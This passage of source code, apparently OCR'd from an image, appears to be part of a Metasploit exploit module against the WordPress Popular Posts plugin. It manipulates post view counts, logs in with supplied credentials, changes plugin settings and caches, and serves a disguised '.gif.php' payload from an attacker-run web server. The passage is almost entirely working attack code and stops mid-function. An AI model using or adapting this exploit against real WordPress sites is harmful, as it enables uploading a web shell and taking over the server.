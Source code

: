 (1..post_count).each do |_c|      res = send_request_cgi!(        'uri' => "/#{location}",        'cookie' => cookie,        'keep_cookies' => 'true'      )      # just send away, who cares about the response      fail_with(Failure::Unreachable, 'Site not responding') unless res      fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200      res = send_request_cgi(        # this URL varies from the POC on EDB, and is modeled after what the browser does        'uri' => normalize_uri(target_uri.path, 'index.php'),        'vars_get' => {          'rest_route' => normalize_uri('wordpress-popular-posts', 'v1', 'popular-posts')        },        'keep_cookies' => 'true',        'method' => 'POST',        'cookie' => cookie,        'vars_post' => {          '_wpnonce' => wp_nonce,          'wpp_id' => post_id,          'sampling' => 0,          'sampling_rate' => 100        }      )      fail_with(Failure::Unreachable, 'Site not responding') unless res      fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 201    end    fail_with(Failure::Unreachable, 'Site not responding') unless res  end  def get_top_posts    print_status('Determining post with most views')    res = get_widget    />(?&lt;views>\d+) views&lt;/ =~ res.body    views = views.to_i    print_status("Top Views: #{views}")    views += 5 # make us the top post    unless datastore['VISTS'].nil?      print_status("Overriding post count due to VISITS being set, from #{views} to #{datastore['VISITS']}")      views = datastore['VISITS']    end    views  end  def get_widget    # load home page to grab the widget ID. At times we seem to hit the widget when it's refreshing and it doesn't respond    # which then would kill the exploit, so in this case we just keep trying.    (1..10).each do |_|      @res = send_request_cgi(        'uri' => normalize_uri(target_uri.path),        'keep_cookies' => 'true'      )      break unless @res.nil?    end    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless @res.code == 200    /data-widget-id="wpp-(?&lt;widget_id>\d+)/ =~ @res.body    # load the widget directly    (1..10).each do |_|      @res = send_request_cgi(        'uri' => normalize_uri(target_uri.path, 'index.php', 'wp-json', 'wordpress-popular-posts', 'v1', 'popular-posts', 'widget', widget_id),        'keep_cookies' => 'true',        'vars_get' => {          'is_single' => 0        }      )      break unless @res.nil?    end    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless @res.code == 200    @res  end  def exploit    fail_with(Failure::BadConfig, 'SRVHOST must be set to an IP address (0.0.0.0 is invalid) for exploitation to be successful') if datastore['SRVHOST'] == '0.0.0.0'    cookie = wordpress_login(datastore['USERNAME'], datastore['PASSWORD'])    if cookie.nil?      vprint_error('Invalid login, check credentials')      return    end    payload_name = "#{Rex::Text.rand_text_alphanumeric(5..8)}.gif.php"    vprint_status("Payload file name: #{payload_name}")    fail_with(Failure::NotVulnerable, 'gd is not installed on server, uexploitable') unless check_gd_installed(cookie)    post_count = get_top_posts    # we dont need to pass the cookie anymore since its now saved into http client    token = get_wpp_admin_token(cookie)    vprint_status("wpp_admin_token: #{token}")    change_settings(cookie, token)    clear_cache(cookie, token)    post_id, ajax_nonce, wp_nonce = create_post(cookie)    print_status('Starting web server to handle request for image payload')    start_service({      'Uri' => {        'Proc' => proc { |cli, req| on_request_uri(cli,